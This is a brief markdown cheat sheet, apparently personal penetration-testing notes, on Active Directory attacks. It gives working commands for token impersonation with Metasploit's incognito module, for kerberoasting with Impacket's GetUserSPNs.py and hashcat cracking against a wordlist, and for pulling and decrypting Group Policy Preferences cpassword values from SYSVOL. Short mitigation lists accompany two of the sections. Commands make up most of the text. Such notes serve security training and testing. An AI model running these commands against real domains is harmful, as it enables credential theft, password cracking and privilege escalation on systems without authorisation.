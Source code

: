 ### token impersonation

Delegation Token: created from logging into a machine or rdp

Impersonation Token: non-interactive such as attaching a network drive or domain logon script

metasploit -> incognito
```
load incognito
list_tokens -u
impersonate_token token_name
```

Mitigation:
- limit user/group token creation permissons
- account tiering
- local admin restriction

### kerberoasting

[Impacket Github link](https://github.com/SecureAuthCorp/impacket)

Get TGS and decrypt server's account hash

1. get spn's, dump hash
2. crack the hash

GetUserSPNs
```
GetUserSPNs.py domain.name/username:password -dc-ip ip -request
```

hashcat
```
hashcat -m 13100 -o crack.txt nhash.txt /usr/share/wordlists/rockyou.txt
```

Mitigation:
- strong passwords
- least privilege

### gpp/cpassword

metasploit
```
use auxiliary/scanner/smb/smb_enum_gpp
set RHOSTS ip
set SMBUSER username
set SMBPASS password
run

use post/windows/gather/credentials/gpp
set SESSION1
run
```

manual
```
smbclient //ip/SYSVOL -U username -P 
# locate and download Groups.xml
# \Policies\{EE416E94-7362-4587-9CEC-651656DB7538}\Machine\Preferences\Groups\Groups.xml
gpp-decrpyt hash
```
